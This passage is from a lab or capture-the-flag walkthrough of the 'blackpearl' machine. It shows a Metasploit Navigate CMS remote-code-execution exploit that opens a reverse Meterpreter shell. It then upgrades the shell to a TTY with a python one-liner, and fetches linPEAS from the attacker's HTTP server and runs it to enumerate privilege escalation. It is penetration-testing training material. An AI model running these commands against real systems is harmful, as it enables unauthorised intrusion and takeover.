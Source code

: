 ```console

View the full module info with the info, or info -d command.
```

- Set rhosts and lets get a shell

```console
msf6 exploit(multi/http/navigate_cms_rce) > set rhosts blackpearl.tcm
rhosts => blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 10.0.2.9:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.15:59240) at 2023-01-27 11:12:10 +0100

meterpreter > shell
Process 3363 created.
Channel 1 created.


id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> We got a shell or something like that, let's get a proper tty shell

- google "how to spawn a tty shell"
- use `/bin/bash -i` or `which python` to check availability and `python -c 'import pty; pty.spawn("/bin/sh")'`  to spawn a proper bash

```console
/bin/bash -i
bash: cannot set terminal process group (355): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blackpearl:~/blackpearl.tcm/navigate$ 
```
> There we go, now lets escalate our privileges

## Enumerate Privilege Escalation (LinPEAS | GTFOBins )

On host system:
- cd into /transfers and start a http.server `python3 -m http.server 80`

On target system:
- download linPEAS `curl 10.0.2.9/linpeas.sh -output linpeas.sh`
```console
curl 10.0.2.9/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  808k  100  808k    0     0  8421k      0 --:--:-- --:--:-- --:--:-- 8509k
```
- add execution permission `chmod +x linpeas.sh`
- run it `./linpeas.sh`
